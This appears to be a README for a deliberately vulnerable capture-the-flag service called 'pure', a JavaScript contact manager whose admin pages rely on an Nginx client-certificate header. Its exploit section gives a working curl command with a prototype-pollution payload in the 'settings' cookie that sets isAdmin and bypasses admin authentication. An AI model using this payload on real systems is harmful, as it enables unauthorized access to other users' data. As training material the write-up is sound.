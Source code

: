 # pure

## Service Description
`pure` is a service to create/edit contacts. It is written in JavaScript and uses MongoDB as a data storage and Nginx as a reverse proxy:

![schema](schema.png)

The user interface allows to:

1. Register a new user

   ![Example of registration screen](register.png)

2. Create a contact
   ![Example of contact creation screen](create_contact.png)

3. Change theme to dark mode
   ![Example of dark mode screen](dark_mode.png)

Also there is an admin interface that allows to view contacts of all users:
![Example of the admin interface](admin.png)

The access to the admin pages is protected using client certificate authentication. This protection is implemented with Nginx:


    server {
        ...
        ssl_client_certificate /etc/ssl/certs/ca.crt;
        ssl_verify_client optional;

        location / {
            ...
            proxy_set_header VERIFIED $ssl_client_verify;
            ...
        }
    }


Nginx checks the client certificate and set `VERIFIED` HTTP header. The application uses this header to set `req.session.isAdmin` property:


    if (req.headers && req.headers['verified'] == 'SUCCESS' && req.session) {
        req.session.isAdmin = true;
    } else {
        if (req.session && req.session.isAdmin) {
            delete req.session.isAdmin;
        }
    }


## Vulnerability Description

TODO

## Exploit

To exploit the vulnerability an attacker could send specially crafted `settings` cookie to the application:

    :::bash
    curl -k https://<HOST> --cookie 'connect.sid=<SESSION COOKIE>' --cookie \
    'settings=j:["__proto__",":",{"isAdmin": true, "cookie":{"originalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}}]'

You can find the full exploit [here](../../sploits/pure/sploit.py).
